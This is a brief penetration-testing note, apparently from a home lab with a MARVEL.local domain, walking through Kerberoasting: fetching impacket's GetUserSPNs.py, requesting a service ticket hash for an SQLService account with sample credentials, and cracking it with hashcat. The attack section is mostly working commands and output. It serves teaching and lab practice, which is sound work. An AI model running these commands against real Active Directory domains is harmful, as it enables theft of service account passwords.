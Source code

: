 **This tool is part of impacket suite.**
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py
```
Here we attempt to get Service Principle Names and encrypted ticket.
```python
python3 GetUserSPNs.py MARVEL.local/groot:Password1 -dc-ip 192.168.111.129 -request
```
`$krb5tgs$23$*SQLService$MARVEL.LOCAL$MARVEL.local/SQLService*$fc60....015e`
Then we just crack the hash.
```bash
hashcat.exe -m 13100 kerberoast.txt rockyou.txt -O
```
